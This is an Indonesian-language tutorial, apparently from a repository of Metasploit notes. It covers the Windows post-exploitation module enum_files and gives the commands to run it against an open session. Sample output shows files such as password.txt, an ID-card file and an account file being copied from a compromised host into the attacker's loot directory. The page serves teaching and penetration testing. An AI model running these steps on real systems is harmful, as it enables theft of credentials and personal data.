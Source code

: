 # enum_file

Module `enum_files` di Metasploit adalah modul `post-exploitation `untuk sistem Windows yang digunakan untuk mencari dan mengumpulkan daftar file berdasarkan ekstensi tertentu seperti `.pdf`, `.docx`, `.txt`, dan `lainnya` dari komputer target. Modul ini bekerja setelah akses ke sistem berhasil diperoleh (misalnya via meterpreter) dan memindai direktori yang ditentukan secara rekursif untuk menemukan file-file penting yang berpotensi sensitif, sehingga berguna dalam proses pengumpulan informasi lebih lanjut setelah eksploitasi berhasil dilakukan.

Cara Penggunaan di Metasploit

```
use post/windows/gather/enum_files
set FILE_GLOBS *.txt
set SESSION <ID>
set VERBOSE true
run
```

Hasil output-nya seperti ini:

```
[*] Searching C:\Users\ through windows user profile structure
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_316311.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123106_default_192.168.1.52_host.files_362125.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_713887.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\ISS_Release.txt
[+] ISS_Release.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_313018.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Release_RTWlanU.txt
[+] Release_RTWlanU.txt saved as: /root/.msf4/loot/20250516123107_default_192.168.1.52_host.files_663615.txt
[*] Downloading C:\Users\admin\Downloads\windows_7_8_81_32_64bit_1027.3(1)\windows_7_8_81_32_64bit_1027.3\Release notes\Utility_Release.txt
[+] Utility_Release.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_218646.txt
[*] Downloading C:\Users\admin\Desktop\password.txt
[+] password.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_562665.txt
[*] Downloading C:\Users\admin\Desktop\KTP SAYA.txt
[+] KTP SAYA.txt saved as: /root/.msf4/loot/20250516123108_default_192.168.1.52_host.files_967686.txt
[*] Downloading C:\Users\admin\Desktop\AKUN PB.txt
[+] AKUN PB.txt saved as: /root/.msf4/loot/20250516123109_default_192.168.1.52_host.files_165012.txt
[*] Done!
[*] Post module execution completed
```
